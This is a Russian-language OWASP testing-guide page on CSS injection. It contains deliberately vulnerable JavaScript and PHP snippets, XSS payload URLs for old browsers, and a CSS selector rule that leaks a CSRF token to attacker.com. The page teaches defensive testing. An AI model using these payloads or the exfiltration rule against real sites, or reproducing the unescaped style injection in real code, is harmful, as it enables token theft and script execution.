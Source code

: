 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```


{% include breadcrumb.html %}
# Тестирование CSS-инъекций

|ID          |
|------------|
|WSTG-CLNT-05|

## Обзор

Уязвимость инъекции [CSS](https://ru.wikipedia.org/wiki/CSS) включает в себя возможность вводить произвольный код CSS в контексте доверенного web-сайта, который отображается в браузере жертвы. Воздействие этого типа уязвимости зависит от поставляемой CSS полезной нагрузки. Оно может привести к XSS или раскрытию чувствительной информации.

Эта уязвимость возникает, когда приложение позволяет предоставляемому пользователем CSS вмешиваться в имеющиеся таблицы стилей приложения. Инъекция кода в контексте CSS может предоставить злоумышленнику возможность при определённых условиях выполнять JavaScript или извлекать чувствительные данные с помощью селекторов CSS и функций, способных формировать HTTP-запросы. Как правило, предоставление пользователям возможности настраивать страницы с помощью своих CSS-файлов сопряжено со значительным риском.

В следующем коде JavaScript показан возможный уязвимый скрипт, в котором злоумышленник может контролировать `location.hash` ([источник](https://github.com/wisec/domxsswiki/wiki/location,-documentURI-and-URL-sources)), который ведёт к функции `cssText` ([приёмник](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)). Этот пример может привести к XSS на основе DOM в старых версиях браузеров. Дополнительную информацию см. в [Памятке по предотвращению XSS на основе DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).

```html
<a id="a1">Click me</a>
<script>
    if (location.hash.slice(1)) {
    document.getElementById("a1").style.cssText = "color: " + location.hash.slice(1);
    }
</script>
```

Злоумышленник может нацелиться на жертву, попросив ее посетить следующие URL-адреса:

- `www.victim.com/#red;-o-link:'<javascript:alert(1)>';-o-link-source:current;` (Opera \[8,12\])
- `www.victim.com/#red;-:expression(alert(URL=1));` (IE 7/8)

Такая же уязвимость может появиться и в случае отражённого XSS, например, в следующем коде на PHP:

```php
<style>
p {
    color: <?php echo $_GET['color']; ?>;
    text-align: center;
}
</style>
```

Дальнейшие сценарии атак предполагают возможность извлечения данных с помощью принятия чистых CSS-правил. Такие атаки могут проводиться через CSS-селекторы, что приводит к утечке данных, например, CSRF-токенов.

Вот пример кода, который пытается выбрать ввод с `name` совпадающим с `csrf_token` и `value`, начинающимся на `a`. Используя атаку методом перебора для определения `value` атрибута, можно провести атаку, которая передаёт значение домену злоумышленника, например, пытаясь установить фоновое изображение на выбранном элементе ввода.

```html
<style>
input[name=csrf_token][value=^a] {
    background-image: url(http://attacker.com/log?a);
}
</style>
```

Другие атаки с использованием запрошенного контента, такого как CSS, освещаются в видеоролике [Mario Heiderich "Got Your Nose"](https://www.youtube.com/watch?v=FIQvAaZj_HA).

## Задачи тестирования

- Найти точки инъекции CSS.
- Оценить воздействие инъекции.

## Как тестировать

Необходимо проанализировать код, чтобы определить, разрешено ли пользователю вводить контент в контексте CSS. В частности, следует изучить способ, которым web-сайт выдаёт правила CSS на основе входных данных.

Ниже приведен базовый пример:

```html
<a id="a1">Click me</a>
<b>Hi</b>
<script>
    $("a").click(function(){
        $("b").attr("style","color: " + location.hash.slice(1));
    });
</script>
```

Вышеприведенный код содержит источник `location.hash`, контролируемый злоумышленником, который может вставляться непосредственно в атрибут `style` HTML-элемента. Как упоминалось выше, это может привести к разным результатам в зависимости от используемого браузера и предоставленной полезной нагрузки.

На следующих страницах приведены примеры уязвимостей, связанных с CSS-инъекциями:

- [Password "cracker" via CSS and HTML5](http://html5sec.org/invalid/?length=25)
- [CSS attribute reading](http://eaea.sirdarckcat.net/cssar/v2/)
- [JavaScript based attacks using `CSSStyleDeclaration` with unescaped input](https://github.com/wisec/domxsswiki/wiki/CSS-Text-sink)

Дополнительные ресурсы OWASP по предотвращению инъекций CSS см. в [Памятке по защите каскадных таблиц стилей](https://cheatsheetseries.owasp.org/cheatsheets/Securing_Cascading_Style_Sheets_Cheat_Sheet.html).
